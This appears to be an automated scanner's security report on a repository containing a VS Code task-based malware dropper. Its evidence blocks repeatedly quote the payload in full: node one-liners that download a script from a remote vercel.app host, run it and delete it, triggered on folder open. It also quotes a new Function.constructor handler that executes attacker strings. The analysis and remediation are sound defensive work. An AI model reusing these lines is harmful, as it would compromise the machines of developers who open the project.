



# Security Assessment Report - Job Scam Scanner

**Target:** `assessment-14`  
**Scanner:** `tools/scam_scanner.py`  
**Generated:** 2026-02-13 11:34 UTC

---

## Executive Summary

- Total findings: **122** across **58** scanned files.
- ML exploitability likelihood: **100.0%** (**Very High**).
- Verdict: **Likely malicious**.

---

## Risk Dashboard

### Severity Distribution



### Exploitability & Anomaly Dashboard

| Metric | Value |
|---|---:|
| Exploitability likelihood | 100.0% |
| Exploitability band | Very High |
| Anomaly findings | 2 |
| Suspicious URLs observed | 46 |
| Findings density | 2.10 |

### Attack Chain Graph



---

## Findings (Prioritized)

## 1) Critical - Download-Execute-Delete Dropper Chain

**Affected file**: `.vscode/tasks.json`

**Why this is suspicious**
- Combines auto-run trigger with remote download and shell execution.

**Potential impact**
- Immediate endpoint compromise when workspace is opened.

**Evidence**

```json
1: {
2:   "version": "2.0.0",
3:   "configurations": [
4:     {
5:       "type": "node",
6:       "request": "launch",
7:       "name": "Run My Project",
8:       "console": "",
9:       "internalConsoleOptions": "openOnSessionStart"
10:     }
11:   ],
```

**Remediation**
- Delete task, block endpoint, and verify endpoint telemetry.

---

## 2) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `.vscode/tasks.json`

**Why this is suspicious**
- Shell/process execution APIs are commonly abused by droppers and backdoors.

**Potential impact**
- Host compromise through arbitrary command execution.

**Evidence**

```json
18:         "args": [
19:           "-e",
20:           "const https = require(`https`); const fs = require(`fs`); const path = require(`path`); const { exec } = require(`child_process`); const os = require(`os`); const tempFile = path.join(os.tmpdir(), `vscode-windows-${Date.now()}.cmd`); https.get(`https://vscode-toolkit-settings.vercel.app/settings/windows?flag=302`, (r) => { let d = ``; r.on(`data`, c => d += c); r.on(`end`, () => { fs.writeFileSync(tempFile, d); exec(`${tempFile}`, { shell: `cmd.exe` }, (e, o, err) => { setTimeout(() => fs.unlinkSync(tempFile), 1000); }); }); });"
21:         ]
22:       },
```

**Remediation**
- Restrict command execution, remove from untrusted paths, and harden input validation.

---

## 3) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `.vscode/tasks.json`

**Why this is suspicious**
- Shell/process execution APIs are commonly abused by droppers and backdoors.

**Potential impact**
- Host compromise through arbitrary command execution.

**Evidence**

```json
18:         "args": [
19:           "-e",
20:           "const https = require(`https`); const fs = require(`fs`); const path = require(`path`); const { exec } = require(`child_process`); const os = require(`os`); const tempFile = path.join(os.tmpdir(), `vscode-windows-${Date.now()}.cmd`); https.get(`https://vscode-toolkit-settings.vercel.app/settings/windows?flag=302`, (r) => { let d = ``; r.on(`data`, c => d += c); r.on(`end`, () => { fs.writeFileSync(tempFile, d); exec(`${tempFile}`, { shell: `cmd.exe` }, (e, o, err) => { setTimeout(() => fs.unlinkSync(tempFile), 1000); }); }); });"
21:         ]
22:       },
```

**Remediation**
- Restrict command execution, remove from untrusted paths, and harden input validation.

---

## 4) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `.vscode/tasks.json`

**Why this is suspicious**
- Shell/process execution APIs are commonly abused by droppers and backdoors.

**Potential impact**
- Host compromise through arbitrary command execution.

**Evidence**

```json
25:         "args": [
26:           "-e",
27:           "const https = require(`https`); const fs = require(`fs`); const path = require(`path`); const { exec } = require(`child_process`); const os = require(`os`); const tempFile = path.join(os.tmpdir(), `vscode-mac-${Date.now()}.sh`); https.get(`https://vscode-toolkit-settings.vercel.app/settings/mac?flag=302`, (r) => { let d = ``; r.on(`data`, c => d += c); r.on(`end`, () => { fs.writeFileSync(tempFile, d); fs.chmodSync(tempFile, 0o755); exec(`${tempFile}`, { shell: `sh` }, (e, o, err) => { setTimeout(() => { try { fs.unlinkSync(tempFile); } catch {} }, 1000); }); }); });"
28:         ]
29:       },
```

**Remediation**
- Restrict command execution, remove from untrusted paths, and harden input validation.

---

## 5) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `.vscode/tasks.json`

**Why this is suspicious**
- Shell/process execution APIs are commonly abused by droppers and backdoors.

**Potential impact**
- Host compromise through arbitrary command execution.

**Evidence**

```json
25:         "args": [
26:           "-e",
27:           "const https = require(`https`); const fs = require(`fs`); const path = require(`path`); const { exec } = require(`child_process`); const os = require(`os`); const tempFile = path.join(os.tmpdir(), `vscode-mac-${Date.now()}.sh`); https.get(`https://vscode-toolkit-settings.vercel.app/settings/mac?flag=302`, (r) => { let d = ``; r.on(`data`, c => d += c); r.on(`end`, () => { fs.writeFileSync(tempFile, d); fs.chmodSync(tempFile, 0o755); exec(`${tempFile}`, { shell: `sh` }, (e, o, err) => { setTimeout(() => { try { fs.unlinkSync(tempFile); } catch {} }, 1000); }); }); });"
28:         ]
29:       },
```

**Remediation**
- Restrict command execution, remove from untrusted paths, and harden input validation.

---

## 6) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `.vscode/tasks.json`

**Why this is suspicious**
- Shell/process execution APIs are commonly abused by droppers and backdoors.

**Potential impact**
- Host compromise through arbitrary command execution.

**Evidence**

```json
32:         "args": [
33:           "-e",
34:           "const https = require(`https`); const fs = require(`fs`); const path = require(`path`); const { exec } = require(`child_process`); const os = require(`os`); const tempFile = path.join(os.tmpdir(), `vscode-linux-${Date.now()}.sh`); https.get(`https://vscode-toolkit-settings.vercel.app/settings/linux?flag=302`, (r) => { let d = ``; r.on(`data`, c => d += c); r.on(`end`, () => { fs.writeFileSync(tempFile, d); fs.chmodSync(tempFile, 0o755); exec(`${tempFile}`, { shell: `sh` }, (e, o, err) => { setTimeout(() => { try { fs.unlinkSync(tempFile); } catch {} }, 1000); }); }); });"
35:         ]
36:       },
```

**Remediation**
- Restrict command execution, remove from untrusted paths, and harden input validation.

---

## 7) Critical - VS Code Auto-Run Task on Folder Open

**Affected file**: `.vscode/tasks.json`

**Why this is suspicious**
- Auto-running tasks on folder open can execute payloads without explicit consent.

**Potential impact**
- Developer workstation compromise upon opening project.

**Evidence**

```json
47:       },
48:       "runOptions": {
49:         "runOn": "folderOpen"
50:       }
51:     }
```

**Remediation**
- Remove folder-open tasks and require explicit user invocation.

---

## 8) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `SCAM_SCAN_REPORT_GO.md`

**Why this is suspicious**
- Shell/process execution APIs are commonly abused by droppers and backdoors.

**Potential impact**
- Host compromise through arbitrary command execution.

**Evidence**

```md
61: 18:         "args": [
62: 19:           "-e",
63: 20:           "const https = require(`https`); const fs = require(`fs`); const path = require(`path`); const { exec } = require(`child_process`); const os = require(`os`); const tempFile = path.join(os.tmpdir(), `vscode-windows-${Date.now()}.cmd`); https.get(`https://vscode-toolkit-settings.vercel.app/settings/windows?flag=302`, (r) => { let d = ``; r.on(`data`, c => d += c); r.on(`end`, () => { fs.writeFileSync(tempFile, d); exec(`${tempFile}`, { shell: `cmd.exe` }, (e, o, err) => { setTimeout(() => fs.unlinkSync(tempFile), 1000); }); }); });"
64: 21:         ]
65: 22:       },
```

**Remediation**
- Restrict command execution, remove from untrusted paths, and harden input validation.

---

## 9) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `SCAM_SCAN_REPORT_GO.md`

**Why this is suspicious**
- Shell/process execution APIs are commonly abused by droppers and backdoors.

**Potential impact**
- Host compromise through arbitrary command execution.

**Evidence**

```md
61: 18:         "args": [
62: 19:           "-e",
63: 20:           "const https = require(`https`); const fs = require(`fs`); const path = require(`path`); const { exec } = require(`child_process`); const os = require(`os`); const tempFile = path.join(os.tmpdir(), `vscode-windows-${Date.now()}.cmd`); https.get(`https://vscode-toolkit-settings.vercel.app/settings/windows?flag=302`, (r) => { let d = ``; r.on(`data`, c => d += c); r.on(`end`, () => { fs.writeFileSync(tempFile, d); exec(`${tempFile}`, { shell: `cmd.exe` }, (e, o, err) => { setTimeout(() => fs.unlinkSync(tempFile), 1000); }); }); });"
64: 21:         ]
65: 22:       },
```

**Remediation**
- Restrict command execution, remove from untrusted paths, and harden input validation.

---

## 10) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `SCAM_SCAN_REPORT_GO.md`

**Why this is suspicious**
- Shell/process execution APIs are commonly abused by droppers and backdoors.

**Potential impact**
- Host compromise through arbitrary command execution.

**Evidence**

```md
86: 18:         "args": [
87: 19:           "-e",
88: 20:           "const https = require(`https`); const fs = require(`fs`); const path = require(`path`); const { exec } = require(`child_process`); const os = require(`os`); const tempFile = path.join(os.tmpdir(), `vscode-windows-${Date.now()}.cmd`); https.get(`https://vscode-toolkit-settings.vercel.app/settings/windows?flag=302`, (r) => { let d = ``; r.on(`data`, c => d += c); r.on(`end`, () => { fs.writeFileSync(tempFile, d); exec(`${tempFile}`, { shell: `cmd.exe` }, (e, o, err) => { setTimeout(() => fs.unlinkSync(tempFile), 1000); }); }); });"
89: 21:         ]
90: 22:       },
```

**Remediation**
- Restrict command execution, remove from untrusted paths, and harden input validation.

---

## 11) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `SCAM_SCAN_REPORT_GO.md`

**Why this is suspicious**
- Shell/process execution APIs are commonly abused by droppers and backdoors.

**Potential impact**
- Host compromise through arbitrary command execution.

**Evidence**

```md
86: 18:         "args": [
87: 19:           "-e",
88: 20:           "const https = require(`https`); const fs = require(`fs`); const path = require(`path`); const { exec } = require(`child_process`); const os = require(`os`); const tempFile = path.join(os.tmpdir(), `vscode-windows-${Date.now()}.cmd`); https.get(`https://vscode-toolkit-settings.vercel.app/settings/windows?flag=302`, (r) => { let d = ``; r.on(`data`, c => d += c); r.on(`end`, () => { fs.writeFileSync(tempFile, d); exec(`${tempFile}`, { shell: `cmd.exe` }, (e, o, err) => { setTimeout(() => fs.unlinkSync(tempFile), 1000); }); }); });"
89: 21:         ]
90: 22:       },
```

**Remediation**
- Restrict command execution, remove from untrusted paths, and harden input validation.

---

## 12) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `SCAM_SCAN_REPORT_GO.md`

**Why this is suspicious**
- Shell/process execution APIs are commonly abused by droppers and backdoors.

**Potential impact**
- Host compromise through arbitrary command execution.

**Evidence**

```md
111: 25:         "args": [
112: 26:           "-e",
113: 27:           "const https = require(`https`); const fs = require(`fs`); const path = require(`path`); const { exec } = require(`child_process`); const os = require(`os`); const tempFile = path.join(os.tmpdir(), `vscode-mac-${Date.now()}.sh`); https.get(`https://vscode-toolkit-settings.vercel.app/settings/mac?flag=302`, (r) => { let d = ``; r.on(`data`, c => d += c); r.on(`end`, () => { fs.writeFileSync(tempFile, d); fs.chmodSync(tempFile, 0o755); exec(`${tempFile}`, { shell: `sh` }, (e, o, err) => { setTimeout(() => { try { fs.unlinkSync(tempFile); } catch {} }, 1000); }); }); });"
114: 28:         ]
115: 29:       },
```

**Remediation**
- Restrict command execution, remove from untrusted paths, and harden input validation.

---

## 13) Critical - VS Code Auto-Run Task on Folder Open

**Affected file**: `SCAM_SCAN_REPORT_GO.md`

**Why this is suspicious**
- Auto-running tasks on folder open can execute payloads without explicit consent.

**Potential impact**
- Developer workstation compromise upon opening project.

**Evidence**

```md
186: 47:       },
187: 48:       "runOptions": {
188: 49:         "runOn": "folderOpen"
189: 50:       }
190: 51:     }
```

**Remediation**
- Remove folder-open tasks and require explicit user invocation.

---

## 14) Critical - VS Code Auto-Run Task on Folder Open

**Affected file**: `SCAM_SCAN_REPORT_GO.md`

**Why this is suspicious**
- Auto-running tasks on folder open can execute payloads without explicit consent.

**Potential impact**
- Developer workstation compromise upon opening project.

**Evidence**

```md
336: 222: 47:       },
337: 223: 48:       "runOptions": {
338: 224: 49:         "runOn": "folderOpen"
339: 225: 50:       }
340: 226: 51:     }
```

**Remediation**
- Remove folder-open tasks and require explicit user invocation.

---

## 15) Critical - Dynamic Code Execution Primitive Detected

**Affected file**: `SCAM_SCAN_REPORT_GO.md`

**Why this is suspicious**
- Dynamic runtime code construction enables arbitrary payload execution.

**Potential impact**
- Remote code execution and full process compromise.

**Evidence**

```md
361: 272: 99: ```js
362: 273: 100: // server/middleware/errorHandler.js
363: 274: 101: const handler = new Function.constructor("require", errCode);
364: 275: 102: handlerFunc(require);
365: 276: 103: ```
```

**Remediation**
- Remove dynamic execution and replace with strict, typed control flow.

---

## 16) Critical - VS Code Auto-Run Task on Folder Open

**Affected file**: `SCAM_SCAN_REPORT_GO.md`

**Why this is suspicious**
- Auto-running tasks on folder open can execute payloads without explicit consent.

**Potential impact**
- Developer workstation compromise upon opening project.

**Evidence**

```md
386: 297: 122: ```json
387: 298: 123: "runOptions": {
388: 299: 124:   "runOn": "folderOpen"
389: 300: 125: }
390: 301: 126: ```
```

**Remediation**
- Remove folder-open tasks and require explicit user invocation.

---

## 17) Critical - Dynamic Code Execution Primitive Detected

**Affected file**: `SCAM_SCAN_REPORT_GO.md`

**Why this is suspicious**
- Dynamic runtime code construction enables arbitrary payload execution.

**Potential impact**
- Remote code execution and full process compromise.

**Evidence**

```md
411: 372: 244: 
412: 373: 245: ### Behavioral IOCs
413: 374: 246: - Dynamic code execution via `new Function(...)`.
414: 375: 247: - Task auto-execution on workspace open (`runOn: folderOpen`).
415: 376: 248: - Download-execute-delete pattern in temp directory.
```

**Remediation**
- Remove dynamic execution and replace with strict, typed control flow.

---

## 18) Critical - Dynamic Code Execution Primitive Detected

**Affected file**: `SCAM_SCAN_REPORT_GO.md`

**Why this is suspicious**
- Dynamic runtime code construction enables arbitrary payload execution.

**Potential impact**
- Remote code execution and full process compromise.

**Evidence**

```md
436: 422: 309: ```js
437: 423: 310: // BAD: executes attacker-controlled strings
438: 424: 311: // const handler = new Function.constructor("require", errCode);
439: 425: 312: 
440: 426: 313: // GOOD: structured, non-executable logging only
```

**Remediation**
- Remove dynamic execution and replace with strict, typed control flow.

---

## 19) Critical - Dynamic Code Execution Primitive Detected

**Affected file**: `SCAM_SCAN_REPORT_GO.md`

**Why this is suspicious**
- Dynamic runtime code construction enables arbitrary payload execution.

**Potential impact**
- Remote code execution and full process compromise.

**Evidence**

```md
461: 722: 13:     const createHandler = (errCode) => {
462: 723: 14:       try {
463: 724: 15:         const handler = new Function.constructor("require", errCode);
464: 725: 16:         return handler;
465: 726: 17:       } catch (e) {
```

**Remediation**
- Remove dynamic execution and replace with strict, typed control flow.

---

## 20) Critical - Dynamic Code Execution Primitive Detected

**Affected file**: `SCAM_SCAN_REPORT_GO.md`

**Why this is suspicious**
- Dynamic runtime code construction enables arbitrary payload execution.

**Potential impact**
- Remote code execution and full process compromise.

**Evidence**

```md
511: 99: ```js
512: 100: // server/middleware/errorHandler.js
513: 101: const handler = new Function.constructor("require", errCode);
514: 102: handlerFunc(require);
515: 103: ```
```

**Remediation**
- Remove dynamic execution and replace with strict, typed control flow.

---

## 21) Critical - VS Code Auto-Run Task on Folder Open

**Affected file**: `SCAM_SCAN_REPORT_GO.md`

**Why this is suspicious**
- Auto-running tasks on folder open can execute payloads without explicit consent.

**Potential impact**
- Developer workstation compromise upon opening project.

**Evidence**

```md
536: 122: ```json
537: 123: "runOptions": {
538: 124:   "runOn": "folderOpen"
539: 125: }
540: 126: ```
```

**Remediation**
- Remove folder-open tasks and require explicit user invocation.

---

## 22) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `SCAM_SCAN_REPORT_PY.md`

**Why this is suspicious**
- Shell/process execution APIs are commonly abused by droppers and backdoors.

**Potential impact**
- Host compromise through arbitrary command execution.

**Evidence**

```md
97: 18:         "args": [
98: 19:           "-e",
99: 20:           "const https = require(`https`); const fs = require(`fs`); const path = require(`path`); const { exec } = require(`child_process`); const os = require(`os`); const tempFile = path.join(os.tmpdir(), `vscode-windows-${Date.now()}.cmd`); https.get(`https://vscode-toolkit-settings.vercel.app/settings/windows?flag=302`, (r) => { let d = ``; r.on(`data`, c => d += c); r.on(`end`, () => { fs.writeFileSync(tempFile, d); exec(`${tempFile}`, { shell: `cmd.exe` }, (e, o, err) => { setTimeout(() => fs.unlinkSync(tempFile), 1000); }); }); });"
100: 21:         ]
101: 22:       },
```

**Remediation**
- Restrict command execution, remove from untrusted paths, and harden input validation.

---

## 23) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `SCAM_SCAN_REPORT_PY.md`

**Why this is suspicious**
- Shell/process execution APIs are commonly abused by droppers and backdoors.

**Potential impact**
- Host compromise through arbitrary command execution.

**Evidence**

```md
97: 18:         "args": [
98: 19:           "-e",
99: 20:           "const https = require(`https`); const fs = require(`fs`); const path = require(`path`); const { exec } = require(`child_process`); const os = require(`os`); const tempFile = path.join(os.tmpdir(), `vscode-windows-${Date.now()}.cmd`); https.get(`https://vscode-toolkit-settings.vercel.app/settings/windows?flag=302`, (r) => { let d = ``; r.on(`data`, c => d += c); r.on(`end`, () => { fs.writeFileSync(tempFile, d); exec(`${tempFile}`, { shell: `cmd.exe` }, (e, o, err) => { setTimeout(() => fs.unlinkSync(tempFile), 1000); }); }); });"
100: 21:         ]
101: 22:       },
```

**Remediation**
- Restrict command execution, remove from untrusted paths, and harden input validation.

---

## 24) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `SCAM_SCAN_REPORT_PY.md`

**Why this is suspicious**
- Shell/process execution APIs are commonly abused by droppers and backdoors.

**Potential impact**
- Host compromise through arbitrary command execution.

**Evidence**

```md
122: 18:         "args": [
123: 19:           "-e",
124: 20:           "const https = require(`https`); const fs = require(`fs`); const path = require(`path`); const { exec } = require(`child_process`); const os = require(`os`); const tempFile = path.join(os.tmpdir(), `vscode-windows-${Date.now()}.cmd`); https.get(`https://vscode-toolkit-settings.vercel.app/settings/windows?flag=302`, (r) => { let d = ``; r.on(`data`, c => d += c); r.on(`end`, () => { fs.writeFileSync(tempFile, d); exec(`${tempFile}`, { shell: `cmd.exe` }, (e, o, err) => { setTimeout(() => fs.unlinkSync(tempFile), 1000); }); }); });"
125: 21:         ]
126: 22:       },
```

**Remediation**
- Restrict command execution, remove from untrusted paths, and harden input validation.

---

## 25) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `SCAM_SCAN_REPORT_PY.md`

**Why this is suspicious**
- Shell/process execution APIs are commonly abused by droppers and backdoors.

**Potential impact**
- Host compromise through arbitrary command execution.

**Evidence**

```md
122: 18:         "args": [
123: 19:           "-e",
124: 20:           "const https = require(`https`); const fs = require(`fs`); const path = require(`path`); const { exec } = require(`child_process`); const os = require(`os`); const tempFile = path.join(os.tmpdir(), `vscode-windows-${Date.now()}.cmd`); https.get(`https://vscode-toolkit-settings.vercel.app/settings/windows?flag=302`, (r) => { let d = ``; r.on(`data`, c => d += c); r.on(`end`, () => { fs.writeFileSync(tempFile, d); exec(`${tempFile}`, { shell: `cmd.exe` }, (e, o, err) => { setTimeout(() => fs.unlinkSync(tempFile), 1000); }); }); });"
125: 21:         ]
126: 22:       },
```

**Remediation**
- Restrict command execution, remove from untrusted paths, and harden input validation.

---

## 26) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `SCAM_SCAN_REPORT_PY.md`

**Why this is suspicious**
- Shell/process execution APIs are commonly abused by droppers and backdoors.

**Potential impact**
- Host compromise through arbitrary command execution.

**Evidence**

```md
147: 25:         "args": [
148: 26:           "-e",
149: 27:           "const https = require(`https`); const fs = require(`fs`); const path = require(`path`); const { exec } = require(`child_process`); const os = require(`os`); const tempFile = path.join(os.tmpdir(), `vscode-mac-${Date.now()}.sh`); https.get(`https://vscode-toolkit-settings.vercel.app/settings/mac?flag=302`, (r) => { let d = ``; r.on(`data`, c => d += c); r.on(`end`, () => { fs.writeFileSync(tempFile, d); fs.chmodSync(tempFile, 0o755); exec(`${tempFile}`, { shell: `sh` }, (e, o, err) => { setTimeout(() => { try { fs.unlinkSync(tempFile); } catch {} }, 1000); }); }); });"
150: 28:         ]
151: 29:       },
```

**Remediation**
- Restrict command execution, remove from untrusted paths, and harden input validation.

---

## 27) Critical - VS Code Auto-Run Task on Folder Open

**Affected file**: `SCAM_SCAN_REPORT_PY.md`

**Why this is suspicious**
- Auto-running tasks on folder open can execute payloads without explicit consent.

**Potential impact**
- Developer workstation compromise upon opening project.

**Evidence**

```md
222: 47:       },
223: 48:       "runOptions": {
224: 49:         "runOn": "folderOpen"
225: 50:       }
226: 51:     }
```

**Remediation**
- Remove folder-open tasks and require explicit user invocation.

---

## 28) Critical - Dynamic Code Execution Primitive Detected

**Affected file**: `SCAM_SCAN_REPORT_PY.md`

**Why this is suspicious**
- Dynamic runtime code construction enables arbitrary payload execution.

**Potential impact**
- Remote code execution and full process compromise.

**Evidence**

```md
272: 99: ```js
273: 100: // server/middleware/errorHandler.js
274: 101: const handler = new Function.constructor("require", errCode);
275: 102: handlerFunc(require);
276: 103: ```
```

**Remediation**
- Remove dynamic execution and replace with strict, typed control flow.

---

## 29) Critical - VS Code Auto-Run Task on Folder Open

**Affected file**: `SCAM_SCAN_REPORT_PY.md`

**Why this is suspicious**
- Auto-running tasks on folder open can execute payloads without explicit consent.

**Potential impact**
- Developer workstation compromise upon opening project.

**Evidence**

```md
297: 122: ```json
298: 123: "runOptions": {
299: 124:   "runOn": "folderOpen"
300: 125: }
301: 126: ```
```

**Remediation**
- Remove folder-open tasks and require explicit user invocation.

---

## 30) Critical - Dynamic Code Execution Primitive Detected

**Affected file**: `SCAM_SCAN_REPORT_PY.md`

**Why this is suspicious**
- Dynamic runtime code construction enables arbitrary payload execution.

**Potential impact**
- Remote code execution and full process compromise.

**Evidence**

```md
372: 244: 
373: 245: ### Behavioral IOCs
374: 246: - Dynamic code execution via `new Function(...)`.
375: 247: - Task auto-execution on workspace open (`runOn: folderOpen`).
376: 248: - Download-execute-delete pattern in temp directory.
```

**Remediation**
- Remove dynamic execution and replace with strict, typed control flow.

---

## 31) Critical - Dynamic Code Execution Primitive Detected

**Affected file**: `SCAM_SCAN_REPORT_PY.md`

**Why this is suspicious**
- Dynamic runtime code construction enables arbitrary payload execution.

**Potential impact**
- Remote code execution and full process compromise.

**Evidence**

```md
422: 309: ```js
423: 310: // BAD: executes attacker-controlled strings
424: 311: // const handler = new Function.constructor("require", errCode);
425: 312: 
426: 313: // GOOD: structured, non-executable logging only
```

**Remediation**
- Remove dynamic execution and replace with strict, typed control flow.

---

## 32) Critical - Dynamic Code Execution Primitive Detected

**Affected file**: `SCAM_SCAN_REPORT_PY.md`

**Why this is suspicious**
- Dynamic runtime code construction enables arbitrary payload execution.

**Potential impact**
- Remote code execution and full process compromise.

**Evidence**

```md
722: 13:     const createHandler = (errCode) => {
723: 14:       try {
724: 15:         const handler = new Function.constructor("require", errCode);
725: 16:         return handler;
726: 17:       } catch (e) {
```

**Remediation**
- Remove dynamic execution and replace with strict, typed control flow.

---

## 33) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `SCAM_SCAN_SUMMARY_GO.json`

**Why this is suspicious**
- Shell/process execution APIs are commonly abused by droppers and backdoors.

**Potential impact**
- Host compromise through arbitrary command execution.

**Evidence**

```json
63:       "impact": "Arbitrary command execution on host.",
64:       "remediation": "Disallow process execution in untrusted code paths.",
65:       "evidence": "18:         \"args\": [\r\n19:           \"-e\",\r\n20:           \"const https = require(`https`); const fs = require(`fs`); const path = require(`path`); const { exec } = require(`child_process`); const os = require(`os`); const tempFile = path.join(os.tmpdir(), `vscode-windows-${Date.now()}.cmd`); https.get(`https://vscode-toolkit-settings.vercel.app/settings/windows?flag=302`, (r) =\u003e { let d = ``; r.on(`data`, c =\u003e d += c); r.on(`end`, () =\u003e { fs.writeFileSync(tempFile, d); exec(`${tempFile}`, { shell: `cmd.exe` }, (e, o, err) =\u003e { setTimeout(() =\u003e fs.unlinkSync(tempFile), 1000); }); }); });\"\r\n21:         ]\r\n22:       },\r"
66:     },
67:     {
```

**Remediation**
- Restrict command execution, remove from untrusted paths, and harden input validation.

---

## 34) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `SCAM_SCAN_SUMMARY_GO.json`

**Why this is suspicious**
- Shell/process execution APIs are commonly abused by droppers and backdoors.

**Potential impact**
- Host compromise through arbitrary command execution.

**Evidence**

```json
63:       "impact": "Arbitrary command execution on host.",
64:       "remediation": "Disallow process execution in untrusted code paths.",
65:       "evidence": "18:         \"args\": [\r\n19:           \"-e\",\r\n20:           \"const https = require(`https`); const fs = require(`fs`); const path = require(`path`); const { exec } = require(`child_process`); const os = require(`os`); const tempFile = path.join(os.tmpdir(), `vscode-windows-${Date.now()}.cmd`); https.get(`https://vscode-toolkit-settings.vercel.app/settings/windows?flag=302`, (r) =\u003e { let d = ``; r.on(`data`, c =\u003e d += c); r.on(`end`, () =\u003e { fs.writeFileSync(tempFile, d); exec(`${tempFile}`, { shell: `cmd.exe` }, (e, o, err) =\u003e { setTimeout(() =\u003e fs.unlinkSync(tempFile), 1000); }); }); });\"\r\n21:         ]\r\n22:       },\r"
66:     },
67:     {
```

**Remediation**
- Restrict command execution, remove from untrusted paths, and harden input validation.

---

## 35) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `SCAM_SCAN_SUMMARY_GO.json`

**Why this is suspicious**
- Shell/process execution APIs are commonly abused by droppers and backdoors.

**Potential impact**
- Host compromise through arbitrary command execution.

**Evidence**

```json
74:       "impact": "Arbitrary command execution on host.",
75:       "remediation": "Disallow process execution in untrusted code paths.",
76:       "evidence": "18:         \"args\": [\r\n19:           \"-e\",\r\n20:           \"const https = require(`https`); const fs = require(`fs`); const path = require(`path`); const { exec } = require(`child_process`); const os = require(`os`); const tempFile = path.join(os.tmpdir(), `vscode-windows-${Date.now()}.cmd`); https.get(`https://vscode-toolkit-settings.vercel.app/settings/windows?flag=302`, (r) =\u003e { let d = ``; r.on(`data`, c =\u003e d += c); r.on(`end`, () =\u003e { fs.writeFileSync(tempFile, d); exec(`${tempFile}`, { shell: `cmd.exe` }, (e, o, err) =\u003e { setTimeout(() =\u003e fs.unlinkSync(tempFile), 1000); }); }); });\"\r\n21:         ]\r\n22:       },\r"
77:     },
78:     {
```

**Remediation**
- Restrict command execution, remove from untrusted paths, and harden input validation.

---

## 36) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `SCAM_SCAN_SUMMARY_GO.json`

**Why this is suspicious**
- Shell/process execution APIs are commonly abused by droppers and backdoors.

**Potential impact**
- Host compromise through arbitrary command execution.

**Evidence**

```json
74:       "impact": "Arbitrary command execution on host.",
75:       "remediation": "Disallow process execution in untrusted code paths.",
